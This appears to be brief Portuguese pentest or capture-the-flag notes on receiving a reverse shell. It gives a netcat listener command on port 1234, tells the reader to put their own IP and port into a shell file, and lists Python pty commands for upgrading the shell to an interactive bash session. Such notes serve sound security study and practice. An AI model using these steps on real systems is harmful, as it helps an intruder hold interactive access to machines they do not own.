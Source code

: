 ## Net Cat
```
nc -lvnp 1234
```
Escuta a porta 1234

## No arquivo do shell colocar meu IP e a porta escutada pelo netcat no caso 1234

## Fazendo shell python
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctlr+z
stty raw -echo
```
